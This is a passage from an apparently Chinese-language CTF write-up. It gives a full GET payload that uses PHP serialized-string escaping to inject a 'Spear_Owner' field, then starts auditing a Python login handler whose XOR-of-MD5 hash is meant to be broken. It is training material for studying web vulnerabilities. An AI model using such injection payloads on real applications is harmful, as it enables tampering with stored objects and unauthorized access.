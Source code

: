 考点字符串逃逸，我们需逃逸出`";s:11:"Spear_Owner";s:6:"MaoLei";}`共计35个字符，我们可以选择`"di_qi_qiang" => "Penetrating_Gaze"`一次逃逸5个字符，复制7遍即可，完整payload：

```
GET /?chant=di_qi_qiangdi_qi_qiangdi_qi_qiangdi_qi_qiangdi_qi_qiangdi_qi_qiangdi_qi_qiang";s:11:"Spear_Owner";s:6:"MaoLei";}
```

![image-20230917020004911](https://ttycp3.oss-cn-beijing.aliyuncs.com/img/image-20230917020004911.png)

### signin

考到了代码审计的能力，这里我们慢慢分析。首先观察能够获取flag的条件：

```
def do_POST(self):
        try:
            if self.path == "/login":
                body = self.rfile.read(int(self.headers.get("Content-Length")))
                payload = json.loads(body)
                params = json.loads(decrypt(payload["params"]))
                print(params)
                if params.get("username") == "admin":
                    self.send_response(403)
                    self.end_headers()
                    self.wfile.write(b"YOU CANNOT LOGIN AS ADMIN!")
                    print("admin")
                    return
                if params.get("username") == params.get("password"):
                    self.send_response(403)
                    self.end_headers()
                    self.wfile.write(b"YOU CANNOT LOGIN WITH SAME USERNAME AND PASSWORD!")
                    print("same")
                    return
                hashed = gethash(params.get("username"),params.get("password"))
                for k,v in hashed_users.items():
                    if hashed == v:
                        data = {
                            "user":k,
                            "hash":hashed,
                            "flag": FLAG if k == "admin" else "flag{YOU_HAVE_TO_LOGIN_IN_AS_ADMIN_TO_GET_THE_FLAG}"
                        }
```

分析一下，代码要求我们传入的`username`不等于`admin`，且`username`和`password`不能相等，当`hashed`和`v`的值相等，且`k`为`admin`时，获得flag。观察一下`gethash`函数:

```
def gethash(*items):
    c = 0
    for item in items:
        if item is None:
            continue
        c ^= int.from_bytes(hashlib.md5(f"{salt}[{item}]{salt}".encode()).digest(), "big") # it looks so complex! but is it safe enough?
    return hex(c)[2:]
```
